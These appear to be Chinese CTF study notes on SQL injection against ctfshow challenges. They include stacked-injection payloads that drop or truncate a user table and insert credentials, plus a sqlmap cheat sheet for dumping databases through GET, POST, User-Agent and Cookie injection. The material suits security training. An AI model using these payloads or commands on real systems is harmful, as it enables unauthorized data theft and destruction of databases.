[原理](https://blog.csdn.net/qq_41573234/article/details/80411079)

  information_schema  数据库中的  Routines  表中，存储了所有存储过程和函数的定义。使用 SELECT 语句查询  Routines 表中的存储过程和函数的定义时，一定要使用 ROUTNE_NAME  字段指定存储过程或函数的名称。否则，将查询出所有的存储过程或函数的定义。如果存储过程和存储函数名称相同，则需要要同时指定  ROUTINE_TYPE  字段表明查询的是哪种类型的存储程序。

`SELECT   *   FROM   information_schema.Routines WHERE   ROUTINE_NAME  =  '   sp_name  ' ;`
其中，`ROUTINE_NAME`  字段中存储的是存储过程和函数的名称;  `sp_name`  参数表示存储过程或函数的名称。

#### drop create/truncate insert

`1;drop table ctfshow_user;create table ctfshow_user(username varchar(255),pass varchar(255));insert ctfshow_user values(1,1)`
`drop table ctfshow_user;`这条命令会删除（或者说，"丢弃"）名为` ctfshow_user `的数据库表。这将会移除表以及表中的所有数据。

`create table ctfshow_user(username varchar(255),pass varchar(255));`这条命令会创建一个新的表 `ctfshow_user`，并且为其定义了两个列` username `和` pass `。这两个列的数据类型都是` varchar(255) `，也就是最长为255字符的变长字符串

`insert`操作可以不加`into`

TRUNCATE语句只删除表中的所有数据，而不删除表本身。所以你不需要再用CREATE语句重新创建表
`truncate` ：`1;TRUNCATE TABLE ctfshow_user;INSERT INTO ctfshow_user(username, pass) VALUES (1,1);`

### sqlmap

```bash
#POST 需要 --data 'a=1&b=2' --dbs
1.sqlmap -u "目标网址/?id=1" --dbs
2.sqlmap -u "目标网址" -D [数据库名] --tables
3.sqlmap -u "目标网址" -D [数据库名] -T [表名] --columns
4.sqlmap -u "目标网址" -D [数据库名] -T [表名] -C [列名] --dump
#
```

报错注入: `sqlmap -u [目标url] --current-db --batch --threads 10 --technique E`
布尔盲注: `sqlmap -u [目标url] --current-db --batch --threads 10 --technique B`
时间盲注: `sqlmap -u [目标url] --current-db --batch --threads 10 --technique T -v 3`

！POST注入（*标识哪里 就对哪里进行打击）
`sqlmap -u "目标url" --data "uname=admin*&passwd=admin&submit=Submit" --dbs --batch --threads 10 --technique E`

SQLmap实现Http-header头注入之
1.User-Agent注入 ：
在使用请求头注入的时候，--level必须大于3

`sqlmap -u [目标url] --user-agent="抓包得到的对应的内容*" --level 4 --dbs --threads 10 --batch --technique E`

2.Cookie注入 ：
`sqlmap -u [目标url] --cookie="原来*的cookie内容" --level 4 --dbs --threads 10 --batch --technique E`

api调用需要鉴权
`--safe-url` 设置在测试目标地址前访问的安全链接
`--safe-freq` 设置两次注入测试前访问安全链接的次数
`--safe-url http://6875a9a6-d8df-40be-8ba4-c97268e5952f.challenge.ctf.show/api/getToken.php --safe-freq 1`

一些补充
`--technique B` 布尔盲注
`--technique E` 报错注入
`--technique U` union查询注入
`--technique S` 堆叠注入
`--technique T` 时间盲注
`--technique Q` 内联查询注入
